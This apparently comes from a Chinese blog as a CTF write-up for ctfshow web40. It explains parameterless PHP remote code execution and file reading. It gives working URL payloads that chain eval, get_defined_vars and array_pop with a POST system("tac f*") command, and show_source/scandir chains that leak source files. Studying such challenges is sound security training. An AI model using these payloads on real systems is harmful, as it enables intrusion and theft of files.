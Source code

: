 ```yaml
---
title: PHP仅用函数实现执行命令或读取文件
date: 2024-05-15 21:53:24
permalink: /pages/d74e00/
categories:
  - web
tags:
  - php
author: 
  name: the0n3
  link: https://the0n3.top
---
```


# ctfshow web40 命令执行_php变量函数

> 使用php函数让服务器接收并执行自己的命令，获取权限或读取文件  

无参RCE

## 执行命令

```php
get_defined_vars()    # 获取所有系统定义的变量，用户定义的变量，post,get,file等，返回一个数组
next()                # 指向数组中变量的指针
array_pop()           # 弹出数组中最后一个元素
eval()                # 执行表达式或参数字符串命令
```

从里到外构造一下，执行最后一个定义的变量

连起来构造**无参RCE**：

**payload：url/?c=eval(array_pop(next(get_defined_vars())));**  

这个c的值会先获取服务器定义的所有变量，再利用这个数组的栈机制和next指针，获取服务器最后一个变量并执行  

构造完，他的变量数组最后一个定义的什么以及他会执行什么我们都不知道，用post给他传一个**1=system("tac f*");** 作为最后一个变量并执行  
 
## 读文件

```php
getcwd()            #  函数返回当前工作目录。它可以代替pos(localeconv())

localeconv()        #  返回包含本地化数字和货币格式信息的关联数组。这里主要是返回值为数组且第一项为"."

pos()               # 输出数组第一个元素，不改变指针；

current()           # 函数返回数组中的当前元素（单元）,默认取第一个值，和pos()一样

scandir()           # 函数返回指定目录中的文件和目录的数组。这里因为参数为"."所以遍历当前目录

array_reverse()     # 数组逆置

next()              # 将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以

show_source()       # 查看源码
```

每个数组中都有一个内部的指针指向它的"当前"元素，初始指向插入到数组中的第一个元素。

提示：该函数不会移动数组内部指针

**payload：url/?c=show_source(next(array_reverse(scandir(getcwd()))));**

**payload：url/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));**

**类似函数var_export**
